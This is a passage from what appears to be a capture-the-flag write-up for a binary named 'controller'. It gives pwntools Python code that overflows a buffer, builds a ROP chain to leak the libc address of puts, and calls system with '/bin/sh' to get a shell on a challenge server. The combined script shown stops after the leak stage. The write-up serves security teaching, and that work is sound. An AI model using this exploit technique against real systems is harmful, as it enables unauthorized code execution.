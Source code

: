 Great, Now we have leak address of ```puts```.

Step 2, Let's make again bufferoverflow and use the information we have to call ```system``` with ```/bin/sh```.

At the time we reached the ```system``` call, RSI Register was holding some data that led to an error. Since RSI usually holds the 2nd argument to a function call, we want to clear it out and set it to 0, otherwise the call will fail.

```console
#Multipile two resources to get buffer overflow again
get_bof()

pop_rsi_r15 = next(binary.search(asm('pop rsi ; pop r15 ; ret'))) #pop rsi gadget
bin_sh = libc.search(b"/bin/sh").__next__()
system = libc.sym.system
payload = b'A'*0x28
payload += p64(pop_rsi_r15)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

p.sendline(payload)
p.interactive()
```

So Let's put everything together in [exploit.py](exploit.py):
```python
from pwn import *

binary = context.binary = ELF('./controller')

if args.REMOTE:
        libc = ELF('./libc.so.6')
        p = remote('188.166.172.13',30231)
else:
	# When we running locally use this libc, in remote we will use the attached libc
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        p = process(binary.path)

def get_bof():
        #Multipile two resources to get buffer overflow
        resources_input='-1 -65338'
        print(p.recvuntil(':').decode('utf-8'))
        print(resources_input)
        p.sendline(resources_input)
        print(p.recvuntil('>').decode('utf-8'))
        print('3')
        p.sendline('3')
        print(p.recvuntil('>').decode('utf-8'))

#Multipile two resources to get buffer overflow again
get_bof()
#leak puts address - Reading to puts with address of puts from got then call to calculator again
pop_rdi = next(binary.search(asm('pop rdi; ret'))) #pop rdi gadget

libc_leak_payload  = 0x28 * b'A' # buffer 28 bytes + padding
libc_leak_payload += p64(pop_rdi)
libc_leak_payload += p64(binary.got.puts)
libc_leak_payload += p64(binary.plt.puts)
libc_leak_payload += p64(binary.sym.calculator)

p.sendline(libc_leak_payload)
print(p.recvuntil('ingored\n').decode('utf-8'))
```